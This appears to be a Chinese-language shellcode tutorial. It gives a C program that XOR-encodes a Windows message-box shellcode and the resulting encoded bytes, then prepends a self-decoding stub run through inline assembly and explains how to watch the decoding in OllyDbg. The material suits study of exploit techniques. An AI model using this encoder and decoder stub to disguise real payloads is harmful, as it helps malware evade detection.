




# Encode shellcode

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include "stdio.h"

char popup_general[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90";//shellcode should be ended with 0x90
 
void encoder (char* input, unsigned char key, int display_flag)// bool display_flag
{
	int i = 0, len = 0;
	FILE * fp;
	unsigned char * output;
	len = strlen(input);
	output = (unsigned char *)malloc(len + 1);
	if(!output)
	{
		printf("memory erro!\n");
		exit(0);
	}
	//encode the shellcode
	for(i = 0; i < len; i++)
	{
		output[i] = input[i] ^ key;
	}
	if(!(fp = fopen("encode.txt", "w+")))
	{
		printf("output file create erro");
		exit(0);
	}
	fprintf(fp, "\"");
	for(i = 0; i < len; i++)
	{		
		fprintf(fp, "\\x%0.2x", output[i]);
		if((i + 1) % 16 == 0)
		{			
			fprintf(fp, "\"\n\"");
		}
	}
	fprintf(fp, "\";");
	fclose(fp);
	printf("dump the encoded shellcode to encode.txt OK!\n");
	if(display_flag)//print to screen
	{
		for(i = 0; i < len; i++)
		{
			printf("%0.2x ", output[i]);
			if((i + 1) % 16 == 0)
			{
				printf("\n");
			}
		}
	}
	free(output);
}

int main()
{
	encoder(popup_general, 0x44, 1);
	getchar();
	return 0;
}
```

运行后
```
encoded shellcode (key=0x44):
 
"\xb8\x2c\x2e\x4e\x7c\x5a\x2c\x27\xcd\x95\x0b\x2c\x76\x30\xd5\x48"
"\xcf\xb0\xc9\x3a\xb0\x77\x9f\xf3\x40\x6f\xa7\x22\xff\x77\x76\x17"
"\x2c\x31\x37\x21\x36\x10\x77\x96\x20\xcf\x1e\x74\xcf\x0f\x48\xcf"
"\x0d\x58\xcf\x4d\xcf\x2d\x4c\xe9\x79\x2e\x4e\x7c\x5a\x31\x41\xd1"
"\xbb\x13\xbc\xd1\x24\xcf\x01\x78\xcf\x08\x41\x3c\x47\x89\xcf\x1d"
"\x64\x47\x99\x77\xbb\x03\xcf\x70\xff\x47\xb1\xdd\x4b\xfa\x42\x7e"
"\x80\x30\x4c\x85\x8e\x43\x47\x94\x02\xaf\xb5\x7f\x10\x60\x58\x31"
"\xa0\xcf\x1d\x60\x47\x99\x22\xcf\x78\x3f\xcf\x1d\x58\x47\x99\x47"
"\x68\xff\xd1\x1b\xef\x13\x25\x79\x2e\x4e\x7c\x5a\x31\xed\x77\x9f"
"\x17\x2c\x33\x21\x37\x30\x2c\x22\x25\x2d\x28\xcf\x80\x17\x14\x14"
"\x17\xbb\x13\xb8\x17\xbb\x13\xbc\xd4";
```

最后完整的代码
```
char final_sc_44[] = 
"\x83\xC0\x14"          //ADD EAX,14
"\x33\xC9"             //XOR ECX,ECX
"\x8A\x1C\x08"           //MOV BL,BYTE PTR DS:[EAX+ECX]
"\x80\xF3\x44"          //XOR BL,44   //notice 0x44 is taken as temp key to decode !
"\x88\x1C\x08"           //MOV BYTE PTR DS:[EAX+ECX],BL
"\x41"               //INC ECX
"\x80\xFB\x90"          //CMP BL,90
"\x75\xF1"            //JNZ SHORT decoder.00401034
"\xb8\x2c\x2e\x4e\x7c\x5a\x2c\x27\xcd\x95\x0b\x2c\x76\x30\xd5\x48"
"\xcf\xb0\xc9\x3a\xb0\x77\x9f\xf3\x40\x6f\xa7\x22\xff\x77\x76\x17"
"\x2c\x31\x37\x21\x36\x10\x77\x96\x20\xcf\x1e\x74\xcf\x0f\x48\xcf"
"\x0d\x58\xcf\x4d\xcf\x2d\x4c\xe9\x79\x2e\x4e\x7c\x5a\x31\x41\xd1"
"\xbb\x13\xbc\xd1\x24\xcf\x01\x78\xcf\x08\x41\x3c\x47\x89\xcf\x1d"
"\x64\x47\x99\x77\xbb\x03\xcf\x70\xff\x47\xb1\xdd\x4b\xfa\x42\x7e"
"\x80\x30\x4c\x85\x8e\x43\x47\x94\x02\xaf\xb5\x7f\x10\x60\x58\x31"
"\xa0\xcf\x1d\x60\x47\x99\x22\xcf\x78\x3f\xcf\x1d\x58\x47\x99\x47"
"\x68\xff\xd1\x1b\xef\x13\x25\x79\x2e\x4e\x7c\x5a\x31\xed\x77\x9f"
"\x17\x2c\x33\x21\x37\x30\x2c\x22\x25\x2d\x28\xcf\x80\x17\x14\x14"
"\x17\xbb\x13\xb8\x17\xbb\x13\xbc\xd4";
 
int main()
{
	__asm
	{
        lea eax, final_sc_44
		push		eax
		ret
	
	}
	return 0;
}
```

解释一下整个过程

打注释的汇编是解码用的，对后面的乱七八糟的指令进行解码，你也可以载入OD看看，后面有部分是非法的，而其它也是不知道在表达什么



我们来看看在OD里恢复真正的shellcode



一路跳啊跳，来到这，可以看到这个就是shellcode头部解码语句，那我们就来运行几个循环先还原出部分代码



可以看到前面的已经还原出来了，但是这么多循环如果一个一个F8肯定很累，所以技巧来了，先还原出shellcode的第一句，确定第一句要完全还原，然后在还原出来的第一句下断点，然后F9，直接所有代码都还原了




